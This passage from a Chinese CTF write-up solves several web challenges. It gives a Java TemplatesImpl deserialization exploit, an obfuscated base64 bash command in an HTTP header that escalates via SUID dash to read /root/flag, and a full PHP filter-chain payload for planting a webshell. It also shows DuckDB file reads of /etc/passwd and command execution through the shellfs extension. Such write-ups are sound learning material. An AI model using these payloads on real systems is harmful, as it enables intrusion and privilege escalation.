        setField(templates, "_bytecodes", new byte[][]{evilBytes, stubBytes});
        setField(templates, "_name", "Pwnd");
        setIntField(templates, "_transletIndex", 0);

        return templates;
    }

    private static void patchModule(Class<?> clazz) {
        try {
            Unsafe unsafe = getUnsafe();
            Module javaBaseModule = Object.class.getModule();
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.putObject(clazz, offset, javaBaseModule);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

最后还需要 dash 来进行 suid 提权

```http
GET / HTTP/1.1
Host: web-d2b3798417.challenge.xctf.org.cn
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Cmd: bash -c {echo,L3Vzci9iaW4vZGFzaCAtcCAtYyAidGFjIC9yb290L2ZsYWci}|{base64,-d}|{bash,-i}
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Connection: keep-alive
```



## insph

```php
ADVANCED NEURAL COMPUTING SYSTEM

DATA PROCESSING
SOURCE CODE
<?php
error_reporting(0);
session_start();
class FileUpload {
    public function upload() {
        if (!isset($_FILES['file']) || $_FILES['file']['error'] !== UPLOAD_ERR_OK) {
            exit('not file or upload error!');
        }
        $file = $_FILES['file'];
        $fileName = basename($file['name']);
        $fileExt = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));

        if (!in_array($fileExt, ['jpg', 'png', 'gif'])) {
            exit('only jpg, png, gif files are allowed!');
        }

        $file_content = file_get_contents($file['tmp_name']);

        if (strpos($file_content, '<?') !== false) {
            exit('file content not allowed!');
        }

        $destination = "./uploads/". $fileName;
        if (move_uploaded_file($file['tmp_name'], $destination)) {
            exit('file upload success,address is '.$destination);
        }

        exit("upload failed!");
    }
}

class FileView {
    public function includeFile($path) {
        if (preg_match('/php:\/\/|home|var|proc|root|\.\.|flag|access/i',$path)){
            exit("Don't read system file!");
        }
        include $path;
    }
}

class UserLogin {
    public $name;
    public $role;
    public function __wakeup() {
        if ($this->role === 'super_admin') {
            echo "Welcome Admin：" . $this->name;
        }else{
            echo "Welcome User：" . $this->name;
        }
    }
}

class SystemTool {
    public $name;
    public $arg;
    public function __toString(){
        ($this->name)($this->arg);
        return "tools";
    }
}

// 数据处理
if (isset($_GET['data'])) {
    $data = $_GET['data'];
    if (preg_match("/zip|phar|uploads/i",$data)){
        exit("Don't use dangerous protocol!");
    }
    file_put_contents($data, file_get_contents($data));
    echo "Data processed successfully!";
    exit;
}
?>
```

无法 include 包含`.phar`，注意这行代码`file_put_contents($data, file_get_contents($data));`

应该是打 filter-chain，

```php
python php_filter_chain_generator.py --chain '<?php system($_GET[1]);?>'

php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=1.php
```

然后直接读取 flag



## Dam

https://github.com/dbeaver/cloudbeaver 这个项目，进入靶机先进行 DuckDB 数据库链接，路径填`jdbc:duckdb`，模式选择URL，利用执行框进行任意文件读取

```sql
SELECT * FROM read_text('/etc/passwd');
```



找到一个拓展hoax可以执行命令 https://duckdb.org/community_extensions/extensions/shellfs#installing-and-loading

```sql
INSTALL shellfs FROM community;
LOAD shellfs;
```

但是本地并没有这个拓展， 得知 DuckDB 版本是 v1.3.2，架构是 linux_amd64，`Candidate extensions: "httpfs", "jemalloc", "delta", "excel", "mysql"`可以利用 httpfs 去下载拓展

```bash
wget http://community-extensions.duckdb.org/v1.3.2/linux_amd64/shellfs.duckdb_extension.gz
gzip -d shellfs.duckdb_extension.gz


python3 -m http.server 10000
```

加载拓展，没成功，

```sql
UNPIVOT (
    SELECT 'community' AS repository, *
        FROM 'https://community-extensions.duckdb.org/downloads-last-week.json'
    )
ON COLUMNS(* EXCLUDE (_last_update, repository))
INTO NAME extension VALUE downloads_last_week
ORDER BY downloads_last_week DESC;
```

然后就可以直接下载了

```sql
INSTALL shellfs FROM community;
LOAD shellfs;
//SELECT * FROM read_csv('find /usr/bin/ -user root -perm -4000 -print 2>/dev/null |', auto_detect=true);

SELECT * FROM read_csv('find . -exec cat /root/flag ; -quit |', auto_detect=true);
```

suid 提权即可，中途环境一直崩，我估计是因为主办方内存分的不够多的原因，毕竟这个项目也挺大的。

## Labyrinth

省略了，因为我并没有做出来，最后看到链子是

```
PriorityQueue.readObject()
    └─> heapify() / siftDown()
        └─> Comparable.compareTo()
            └─> CustomProxy.compareTo(o)
                └─> InvocationHandler.invoke(this, m3, {o})
                    └─> DataSourceHandler.invoke()
                        └─> method.invoke(ds, args)
                            └─> ELProcessor.eval(expression)
                                └─> Arbitrary code execution
```

就找不到 DataSourceHandler 这样这个合适的 invokeHandler，这周末余神太忙了，不然这个肯定他就秒了

## 小结

题目有点多，但是我做的都不是特别难的题，太难的我也做不来，最后成功在本次CTF实现了学习java的基础目标



与此同时，插播一条广告，有没有师傅愿意加入[SU](https://su-team.cn/about/)和 baozongwi 一起做web的，水平要求大概就是本文中的题目能独立解出绝大多数即可，感觉最近[SU](https://su-team.cn/about/)打web的人比往常少了好多，有点累了😣


> https://baozongwi.xyz/p/spring-native-deserialization-chains/
>
> https://baozongwi.xyz/p/high-jdk-reflection-templatesimpl/
>
> https://research.qianxin.com/archives/3018
